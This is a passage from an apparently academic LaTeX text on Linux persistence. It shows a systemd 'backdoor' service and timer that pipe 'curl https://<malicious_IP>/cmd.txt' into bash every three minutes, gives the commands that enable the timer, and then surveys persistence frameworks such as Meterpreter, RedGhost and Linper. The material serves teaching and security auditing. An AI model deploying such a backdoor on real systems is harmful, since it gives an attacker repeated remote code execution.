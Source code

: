 \begin{itemize}
\begin{spverbatim}
[Service]
Type=simple
ExecStart=curl --insecure https://<malicious_IP>/cmd.txt|bash

## Contents of "backdoor.timer" ##
[Unit]
Description=Runs backdoor ever 3 mins

[Timer]
OnBootSec=5min
OnUnitActiveSec=3min
Unit=backdoor.service

[Install]
WantedBy=multi-user.target

## Commands to launch them ##
> systemctl start backdoor.timer  # to start now
> systemctl enable backdoor.timer  # to make it start on reboot
\end{spverbatim}

%
%
\end{itemize}

\subsubsection{Tools to implement persistence}
\label{sssec:linuxTools}
For Linux systems, there are not as many tools as for Windows systems, but some of them are:
\begin{itemize}
\item \textbf{Metasploit Framework - Meterpreter}: as introduced in section \ref{sssec:windowsTools}, this framework can be used to perform persistence, among other tactics. When generating the \textit{Meterpreter} payload, even though it has more options for Windows, it can be built for Linux too.

\item \textbf{RedGhost and Linper}: these two projects are frameworks that deploy persistence, designed to assist cybersecurity professionals when performing auditing tests.

\underline{RedGhost}\cite{RedGhost}, is a framework written in \textit{bash} (Linux shell commands) that can be launched to deploy backdoors, persistence, and other tactics using multiple techniques.

\underline{Linper}\cite{Linper} is also a toolkit written in \textit{bash}, that contain several methods to perform persistence, like modifying \texttt{crontab} and \texttt{.bashrc} files, in addition to creating backdoors.


\end{itemize}

